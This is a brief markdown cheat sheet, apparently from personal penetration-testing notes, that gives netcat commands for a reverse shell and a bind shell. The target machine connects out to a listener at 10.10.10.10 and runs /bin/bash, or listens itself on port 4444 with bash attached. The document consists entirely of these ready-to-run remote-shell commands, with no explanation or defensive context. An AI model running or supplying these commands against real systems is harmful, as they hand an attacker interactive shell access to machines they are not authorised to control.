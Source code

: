 ## Netcat Reverse Shell
- localhost: 10.10.10.10
  - `nc -nvlp 4444`
- target: 10.10.10.5
  - `nc 10.10.10.10 4444 -e /bin/bash`

## Netcat Bind Shell
- localhost: 10.10.10.10
  - nc 10.10.10.5 4444
- target: 10.10.10.5
  - nc -nvlp 4444 -e /bin/bash
